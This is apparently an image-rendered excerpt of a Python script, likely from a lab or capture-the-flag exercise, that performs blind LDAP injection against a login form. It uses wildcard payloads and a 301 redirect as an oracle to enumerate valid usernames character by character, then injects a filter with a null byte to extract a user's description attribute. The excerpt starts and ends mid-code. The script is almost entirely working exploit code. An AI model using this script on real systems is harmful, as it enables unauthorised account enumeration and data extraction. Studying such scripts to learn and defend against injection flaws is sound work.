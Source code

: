 ```python
        # By default Python shows you the final code after the redirect, to prevent it from doing the redirect we add 'allow_redirects=False'
        r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)
        # We can pass the petition through BurpSuite proxy
        # r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False, proxies=burp)

        if r.status_code == 301:
            initial_users.append(character)

    return initial_users

def getUsers(initial_users):
    characters = string.ascii_lowercase + string.digits
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    valid_users = []

    for first_character in initial_users:
        user = ""
    
        for position in range(0, 15):
            for character in characters:
                post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)

                r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)
                
                if r.status_code == 301:
                    user += character
                    break

        valid_users.append(first_character + user)

    print("\n")

    for user in valid_users:
        log.info("Valid user found: %s" % user)

    print("\n")

    return valid_users

def getDescription(user):
    characters = string.ascii_lowercase + ' '
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    description = ""

    p1 = log. progress("Brute-force")
    p1.status("Starting brute-force process..")

    time.sleep(2)

    p2 = log.progress("Description")

    for position in range(0, 50):
        for character in characters:
            post_data = "user_id={}) (description={}{}*) )%00&password=*&login=1&submit=Submit".format(user, description, character)

            r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)

            if r.status_code == 301:
                description += character
```
